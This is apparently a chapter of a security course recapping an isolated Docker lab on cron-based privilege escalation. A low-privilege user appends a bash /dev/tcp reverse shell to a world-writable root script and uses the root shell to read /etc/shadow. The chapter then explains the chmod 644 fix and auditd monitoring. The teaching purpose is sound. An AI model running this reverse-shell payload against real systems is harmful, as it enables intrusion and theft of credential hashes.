

# Chapter 26: Root From a Writable Script

## Learning objectives

By the end of this chapter, you will be able to:
- Identify a world-writable file executed by a privileged scheduled task as a vertical privilege escalation vulnerability, independent of any specific exploit technique.
- Explain, piece by piece, how a Linux reverse shell payload using bash's `/dev/tcp` feature actually works.
- Apply the correct fix for this class of vulnerability and explain why removing a low-privilege account's shell access is neither necessary nor sufficient — only removing its write access to the trusted file matters.

## The concept

Phase 5 of this course has been about identity and access: who you are, what you're allowed to do, how credentials get attacked, and how single sign-on protocols actually work under the hood. This chapter is the capstone lab for the phase, and it brings all of that back to something concrete: a real privilege escalation from a throwaway low-privilege account to full root, built and exploited in an isolated Docker lab rather than described in the abstract.

This course already drew the line between vertical and horizontal privilege escalation back in Phase 5's opening sessions: vertical means moving from a lower privilege level to a higher one, such as an ordinary user gaining root; horizontal means staying at the same privilege level but reaching into someone else's resources, such as changing a user ID in a URL to view another account's data. This chapter's lab is a clean, textbook example of the vertical case.

The setup mirrors something genuinely common on real servers. A container ran `cron`, the standard Linux task scheduler, as its main process — meaning cron itself was running as root, the same as it would on a production machine. Cron had a single job: execute `/opt/cleanup.sh` every minute, as the user `root`. That script was owned by root. But its permission bits were set to `777` — read, write, and execute for the owner, the owning group, and everyone else on the system. A second account on the box, `lowpriv`, represented an attacker who had already obtained some kind of foothold — a web shell, a stolen credential, a compromised application process, it doesn't matter which. What matters is what that foothold could be turned into.

The first step of the exploit was simply looking. Reading `/etc/cron.d/cleanup-cron` showed the scheduled job line: run the script every minute, as root. Reading the script's permissions with `ls -la` showed `-rwxrwxrwx`, owned by `root:root`. That trailing `rwx` — the "other" permission group, covering every user who isn't the file's owner or in its owning group — is the entire vulnerability in one string of characters. Cron has no concept of trusting a file's *history*; it only executes whatever the file's contents happen to be at the moment it fires, as whichever user the schedule specifies. If anyone besides root can rewrite that file, anyone besides root can make root run arbitrary commands.

With write access confirmed, the exploit itself was a single appended line:

```
bash -i >& /dev/tcp/cron-privesc-attacker/4444 0>&1
```

Each piece of that line does something specific. `bash -i` starts an interactive shell — one that prints prompts and reads ongoing input, rather than running a single command and exiting. `/dev/tcp/host/port` is not a real file; it's a special path bash recognizes and treats as an instruction to open a live TCP connection to that host and port. `>&` redirects both standard output and standard error into that connection, and `0>&1` routes standard input through it as well. Put together, the line opens an outbound network connection to an attacker-controlled listener and hands it a fully interactive shell. This is called a *reverse* shell specifically because the compromised machine initiates the connection outward, rather than the attacker connecting inward — a detail that matters in real environments, since outbound connections routinely slip past firewall rules built to watch only for unsolicited inbound traffic.

A netcat listener (`nc -lvnp 4444`) on a separate attacker container sat waiting on the other end. Within the next minute, cron fired the script as root, reached the appended line, and the listener caught a live connection. Three follow-up commands proved exactly what had happened: `whoami` returned `root`; `id` returned `uid=0(root) gid=0(root) groups=0(root)` — uid 0 being the literal definition of the root account on Linux, not merely a label; and `cat /etc/shadow`, a file holding password hashes that is normally unreadable by anyone but root, printed its contents without complaint. A uid-1000 account with no special privileges had become full root, through nothing more sophisticated than one incorrect permission bit.



A genuinely useful question came up mid-lab, before the fix was even applied: if the payload is still sitting in the script, won't cron just keep firing it every minute — and wouldn't that eventually get noticed? The mechanical answer is that a netcat listener without the `-k` ("keep listening") flag only accepts one connection; later cron-triggered attempts simply get refused once the first connection is established. But the more important answer looks past the lab's specific tooling: in a real environment, a maintenance script that normally does nothing more than append a log line suddenly spawning an interactive shell with an open network socket, once every minute, is an extremely loud behavioral signature — exactly the kind of anomaly that endpoint monitoring and process-execution logging exist to catch. That tension between maintaining access and staying quiet is a direct preview of Phase 7, Detection, much later in this course.

The fix addresses the actual root cause rather than a symptom of it: `chmod 644 /opt/cleanup.sh`, leaving root with read and write access and everyone else with read-only access. Crucially, the fix does not involve removing the `lowpriv` account or revoking its shell — that account keeps exactly the access it had before. What changes is narrower and more precise: `lowpriv` can no longer rewrite the one file root blindly trusts. Confirming the fix mattered just as much as applying it — attempting to re-append the payload as `lowpriv` after the permission change produced `bash: /opt/cleanup.sh: Permission denied`, proving the escalation path was genuinely closed rather than merely assumed fixed.

The closing discussion pushed one step further: what do you do if you find this exact misconfiguration on a real server but can't apply the permission fix immediately, say because of a change-control window? The first instinct offered in this session was to block the specific network port the reverse shell used — which misses the point, since that port number was an arbitrary choice made for this lab, not an inherent feature of the vulnerability; a real attacker could use any port, including ones that are normally left open to blend in. The better category of interim mitigation is detection rather than prevention: using something like Linux's `auditd` framework to watch the file for write events would log who modified it and when, even while the underlying permission problem remains open. It doesn't close the hole, but it means the moment someone tampers with the file, there's a record of it — turning an invisible compromise into a visible one, and giving any later investigation an actual evidence trail to work from.

## Hands-on lab recap — REAL LAB

This was a real, hands-on Docker lab, not a simulated walkthrough. Two containers were built from scratch — `cron-privesc-target` (running `cron -f` as its main process, with a `lowpriv` user and a root-owned, world-writable `/opt/cleanup.sh` scheduled via `/etc/cron.d/cleanup-cron`) and `cron-privesc-attacker` (a netcat listener) — connected only to a dedicated `--internal` Docker network with no route to the outside world at all. As `lowpriv`, the session confirmed the misconfigured permissions directly (`ls -la` showing `-rwxrwxrwx`), appended a `/dev/tcp`-based reverse shell payload to the writable script, and caught a live root shell on the attacker's netcat listener within the next cron tick — confirmed via `whoami`, `id`, and a successful read of `/etc/shadow`. The fix (`chmod 644`) was applied and then actively re-tested: attempting to replant the payload as `lowpriv` produced a real `Permission denied` error, proving the fix rather than merely asserting it. All containers, the network, and both images were torn down cleanly at the end of the session (`docker rm -f`, `docker network rm`, `docker image rm`). The original version of this lab from much earlier in the course (Day 6) no longer existed on disk, so this was built fresh at a new path (`/yml/install/security-learn/cron-privesc-lab/`) rather than reused — the Dockerfiles remain there for possible future reuse.

## Review questions

1. In this lab, what was the actual vulnerability — was it cron itself, the reverse shell technique, or something else? Be specific.
2. The script's permissions changed from `777` to `644`. Why did that stop the attack, given that the low-privilege account still had an active shell on the machine the entire time?
3. If you found a world-writable, root-run script on a real server but couldn't fix the permission immediately due to a change-control window, what's a reasonable interim mitigation — and why wouldn't blocking a specific port number be a good answer?

### Answers

1. The vulnerability was the file permission on the script — a root-owned file that any user on the system could write to, combined with a cron job that executed it as root without any regard for who had last modified it. Cron behaved exactly as configured; nothing about the scheduler itself was flawed.
2. Changing the permission removed the "other" write bit, so `lowpriv` could no longer modify the file's contents. The account's shell access was never the mechanism of attack by itself — it was only useful because it could be combined with write access to a file root trusted. Removing that one capability (write access to this specific file) closed the path without touching anything else about the account.
3. A reasonable interim mitigation is detection rather than prevention — for example, using `auditd` to log every write to the file, capturing who made the change and when, even while the underlying permission issue remains open. Blocking a specific port doesn't help because the port used in this lab was an arbitrary implementation detail of one particular exploit; a real attacker could use any port at all, so the actual exposure (a writable file a privileged process trusts) remains completely unaddressed.

## Operational takeaway

> Always check who can *write* to a file before trusting who's allowed to *run* it — in a scheduled-task setup, the real privilege boundary is the file's write permission, not the account the job runs as.

## Today in the broader Security Tutor journey

This chapter closes out Phase 5 — Identity and Access Management — which opened with the conceptual groundwork of authentication versus authorization and the taxonomy of privilege escalation (Chapter 21), moved through two real hands-on credential-attack labs covering dictionary attacks and password spraying (Chapters 22 and 23), paused for a checkpoint quiz (Chapter 24), covered the formal AAA framework and SSO protocol mechanics (Chapter 25), and now ends with the phase's capstone: an actual, exploited-and-fixed vertical privilege escalation, tying the whole phase's "who gets to do what" theme back to a concrete, reproducible technical failure. The next chapter moves the course into Phase 6 — Cloud Security — starting with the shared responsibility model and cloud-native identity and access management, where many of this phase's same underlying questions (who can write to what, and what happens when a privileged process trusts something it shouldn't) reappear in a cloud-native form, such as an overly permissive IAM policy or a misconfigured storage bucket.
